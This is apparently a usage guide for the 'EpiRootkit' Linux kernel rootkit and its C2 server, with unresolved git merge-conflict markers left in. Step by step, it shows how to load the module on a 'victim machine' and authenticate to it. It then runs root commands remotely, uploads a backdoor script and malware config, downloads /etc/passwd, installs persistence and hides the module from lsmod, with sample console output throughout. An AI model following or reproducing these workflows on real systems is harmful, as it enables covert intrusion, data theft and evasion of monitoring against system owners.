 ```yaml
---
title: "Usage Guide"
description: "Comprehensive usage scenarios and workflows"
icon: "menu_book"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 304
---
```


<<<<<<< HEAD
## Running the Server & Web UI
=======
# Usage Guide
>>>>>>> d8205ef9e1984d8455d84e1cada77692ef2857c0

Complete workflows and usage scenarios for the EpiRootkit C2 server.

## Getting Started

### 1. Start the C2 Server
```bash
<<<<<<< HEAD
pnpm start
```

This command starts both the C2 server and the Web UI. The CLI prompt (`c2-server$ `) will appear for server management, and the Web UI will be available at [http://localhost:3000](http://localhost:3000) by default.

Real-time event logs appear in the console, providing visual alerts for significant events such as client connections and disconnections.
=======
cd attacking_program
pnpm start
```

### 2. Wait for Rootkit Connection
```bash
# On victim machine
sudo insmod epirootkit.ko
>>>>>>> d8205ef9e1984d8455d84e1cada77692ef2857c0

# C2 server will show:
┌─ Client-1
  ✓ [2025-05-25 16:13:29] Connected
└─
```

### 3. Authenticate
```bash
c2-server$ auth Client-1 <password> (default: password)
┌─ Client-1
  ✓ [2025-05-25 16:13:30] Authenticated
└─
```

#### Brute Force Protection

Rate limit to 5 attempts per 60 seconds.

## Basic Workflows

### Client Management Workflow

#### List and Monitor Clients
```bash
# List all connected clients
c2-server$ ls
┌─ Connected Clients
  • Client-1 - AUTHENTICATED - Last seen: 6:13:29 PM
  • Client-2 - UNAUTHENTICATED - Last seen: 6:10:15 PM
└─

# Check specific client status
c2-server$ status Client-1
┌─ Client-1
  • [2025-05-25 16:13:30] Command result:
  • EpiRootkit Status:
  • Version: 1.0.0
  • Authentication: YES
  • Connection: CONNECTED
  • Module Hidden: YES
  • Encryption: DISABLED
  • Persistence: ENABLED
└─

# Monitor connection health
c2-server$ keepalive Client-1
┌─ Client-1
  • [2025-05-25 16:13:31] Command result:
  • Keepalive Status:
  • Last ping sent: 2025-05-25 16:14:00
  • Connection stable: YES
└─
```

### Command Execution Workflow

#### Basic System Commands
```bash
# Check user privileges
c2-server$ exec Client-1 whoami
┌─ Client-1
  • [2025-05-25 16:13:32] Command result:
  • root
└─

# System information
c2-server$ exec Client-1 uname -a
┌─ Client-1
  • [2025-05-25 16:13:33] Command result:
  • Linux victim 5.4.0-74-generic #83-Ubuntu SMP Wed Apr 29 23:25:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
└─

```


### File Transfer Workflow

#### Upload Files to Victim
```bash
# Upload a script
c2-server$ upload Client-1 ./scripts/backdoor.sh /tmp/backdoor.sh
┌─ File Upload
  • Uploading ./scripts/backdoor.sh → /tmp/backdoor.sh
  ✓ Upload initiated
└─

# Upload configuration
c2-server$ upload Client-1 ./configs/malware.conf /etc/malware.conf
┌─ File Upload
  • Uploading ./configs/malware.conf → /etc/malware.conf
  ✓ Upload initiated
└─

# Verify upload
c2-server$ exec Client-1 ls -la /tmp/backdoor.sh
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
```

#### Download Files from Victim
```bash
# Download sensitive files
c2-server$ download Client-1 /etc/passwd ./victim_passwd
┌─ File Download
  • Downloading /etc/passwd → ./victim_passwd
  ✓ Download request sent
└─
```

## Advanced Workflows

### Persistence Management

#### Install Persistence
```bash
# Interactive persistence menu
c2-server$ persist Client-1
┌─ Persistence Management - Client-1
  • Install All Methods
  • Remove All Methods
  • Install Specific Method
  • Show Status
  • Exit

? Select persistence action: Install All Methods
┌─ Installing Persistence
  • Installing all persistence mechanisms on Client-1...
  ✓ all persistence mechanisms installation command sent
└─

# Install specific method
c2-server$ persist Client-1 install modules
┌─ Installing Persistence
  • Installing modules-load.d persistence on Client-1...
  ✓ modules-load.d persistence installation command sent
└─
```


### Stealth Configuration

#### Interactive Configuration
```bash
c2-server$ config Client-1
┌─ Configuration - Client-1
  • Fetching current status...

  Current Configuration:
  [X] Module Hiding (Click to disable)
  [ ] Persistence (Click to enable)
  Refresh Status
  Exit

? Select option: [X] Module Hiding (Click to disable)
┌─ Configuration - Client-1
  • Applying configuration change...
  ✓ Configuration updated
└─
```

#### Manual Stealth Commands
```bash
# Hide module from lsmod
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show module)

# Enable hiding
c2-server$ status Client-1
# Check if "Module Hidden: YES"

# Verify hiding
c2-server$ exec Client-1 lsmod | grep epirootkit
# (should show no output if hidden)
```

